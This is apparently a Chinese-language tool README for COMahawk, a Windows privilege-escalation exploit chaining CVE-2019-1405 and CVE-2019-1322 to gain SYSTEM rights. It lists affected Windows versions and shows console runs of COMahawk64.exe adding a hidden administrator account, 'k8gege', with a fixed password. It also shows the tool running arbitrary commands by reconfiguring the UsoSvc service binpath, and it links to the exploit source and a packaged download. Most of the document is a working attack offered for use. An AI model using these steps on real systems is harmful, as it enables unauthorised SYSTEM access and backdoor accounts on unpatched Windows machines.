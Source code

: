 ### 漏洞介绍

由NCC Group研究人员所发现的两个通过COM本地服务进行非法提权的漏洞。第一个漏洞CVE-2019-1405是COM服务中的一个逻辑错误，可让本地普通用户以LOCAL SERVICE身份执行任意命令。第二个漏洞CVE-2019-1322是一个简单的服务配置错误，可让本地SERVICE组中的任何用户重新配置以SYSTEM权限运行的服务（此漏洞也被其他研究人员发现）。当以上两个漏洞结合在一起时，就允许本地普通用户以SYSTEM权限执行任意命令。

全面检查了一些Windows服务,发现以LOCAL SERVICE或NETWORK SERVICE运行的所有用户都可以执行这种攻击。其中就包括前面我们提到的UPnP Device Host服务,这样我们就能以本地任意用户身份,结合使用CVE-2019-1405及CVE-2019-1322这两个漏洞,成功在Windows 10(1803到1903)系统上将权限提升至SYSTEM用户。

### 漏洞版本
Vendor 	Product 	Versions
Microsoft	Windows 10	-, 1607, 1709, 1803, 1809, 1903
Microsoft	Windows 7	-
Microsoft	Windows 8.1	-
Microsoft	Windows Rt 8.1	-
Microsoft	Windows Server 2008	-, R2
Microsoft	Windows Server 2012	-, R2
Microsoft	Windows Server 2016	-, 1803, 1903
Microsoft	Windows Server 2019	-

### 默认提权
```Bash
C:\Users\null\Desktop>COMahawk64.exe
[\] Progress:  1/9 2/9 3/9 4/9 5/9 6/9 7/9 8/9 9/9
[+] Hopefully k8gege:K8gege520 is added as an admin.

C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### 指定命令
```Bash
C:\Users\null\Desktop>COMahawk64.exe "net user k8gege K8gege123? /add"
[+] Executing command [ sc config UsoSvc binpath= "cmd.exe /c net user k8gege K8gege123? /add" ]
[\] Progress:  1/6 2/6 3/6 4/6 5/6 6/6
[+] Command executed.
C:\Users\null\Desktop>net user

\\DESKTOP-3F42O5D 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
k8gege                   null                     WDAGUtilityAccount
命令成功完成。
```

### Win10提权
Teston Win10 X64 1803
![](Run.PNG)

### Exp

https://github.com/apt69/COMahawk

https://github.com/k8gege/K8tools/raw/master/Comahawk.rar
